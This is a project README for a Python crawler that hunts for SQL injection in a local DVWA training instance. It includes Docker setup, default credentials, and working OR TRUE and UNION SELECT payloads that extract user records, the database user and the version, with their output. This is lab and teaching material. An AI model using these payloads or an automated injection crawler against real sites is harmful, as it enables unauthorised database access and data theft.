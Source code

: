 # demo-python-three

## description
search a 'remote' target hosting a **'damn vulnerable web application'** instance for an sql injection vulnerability

## installation / setup
```
> docker search dvwa
> docker pull citizenstig/dvwa
> docker images
> docker run -d -p 80:80 citizenstig/dvwa
```
yields a 'target host' at `http://localhost:80/`

optionally use..
```
> docker ps -a
> docker exec -it 8a021ce97f45 /bin/bash
> cd /var/www/html/
```
..for a rummage around the service's files

the compromise is only possible for a lowered security version of the site, configurable by insecure `security` cookie override `impossible` -> `low` post login

```
> waterfox 127.0.0.1/login.php
username: 'admin' / password: 'password'
> waterfox 127.0.0.1/vulnerabilities/sqli/index.php
S-f2 (mozilla developer bar) -> cookie set security low
```

## sql injection exploitation
confirmation of the vulnerability can be observed via the multiple return records visible following POST of the following `id`:
```
"-1 OR TRUE #"
```
returning:
```
ID: -1' OR TRUE #
First name: admin
Surname: admin

ID: -1' OR TRUE #
First name: Gordon
Surname: Brown

ID: -1' OR TRUE #
First name: Hack
Surname: Me

ID: -1' OR TRUE #
First name: Pablo
Surname: Picasso

ID: -1' OR TRUE #
First name: Bob
Surname: Smith
```

php's `mysql_query` filters multiple statements by default to make sql injection harder / less destructive ..but alas, composite select statements are still single statements, so via use of sql UNIONs arbitrary selects can be made ..although in this instance not easily recovered given the shape of the hard coded field selection criteria, limiting us to **'\*x2'** output dimensions

extracting the database version and user can be achieve by:
```
"-1' union select user(), @@version #"
```
yielding
```
ID: -1' union select user(), @@version #
First name: admin@localhost
Surname: 5.5.47-0ubuntu0.14.04.1
```

## automation: 'spider' - the crawler
python based crawler..

### usage
```
usage: spider.py [-h] [-s HOST:PORT] [-v LEVEL] TARGET

Given a target host's root, 'spider' searches for basic sql injection
vulnerabilities and returns the database user and version where successful

positional arguments:
  TARGET                base url to initialise crawl from

optional arguments:
  -h, --help            show this help message and exit
  -s HOST:PORT, --slave HOST:PORT
                        instance slave mode, connecting to master at HOST:POST
  -v LEVEL, --verbosity LEVEL
                        increase the level of information output
```

### architectual framework components
#### user input
- provide target / root
- reset target cache
- node mode, server (default) / worker
#### node container
- scraping / parsing logic
- identify further urls
#### runner
- server, providing communication end-points to farm out available work
- output results
- block node operations while not logged in
- url pools, maps for processed / processing / to process, mutexes for access
#### storage
- user/node states, authenticate logon
- urls, semi-regularly synchronised with memory pools for recovery
- results, vulnerable urls
#### api
- get_scrape_url_next
- send_scraped_urls
#### unit test suite
- api handles
- mock vulnerable server with static form templates

### architectural design (C4 methodolody)
![architectural design](architecture.png)

## todo
- state implementation
- restore / reset existing state cmdline and interactive options
- docstrings
- test suite
- track url_pools diffs for state sync
- crawl link subpaths for isolated (no linked) resources
- make result deduction template agnostic via pre / post exploit diff to
extract results from unknown DOM position
- custom credentials cmdline option
- support multiple credentials sets
- parse robots.txt for valid paths, etiquette abuse

## dependencies
- docker
- dvwa
- tornado
- pycurl
- libcurl
- beautifulsoup
- lxml
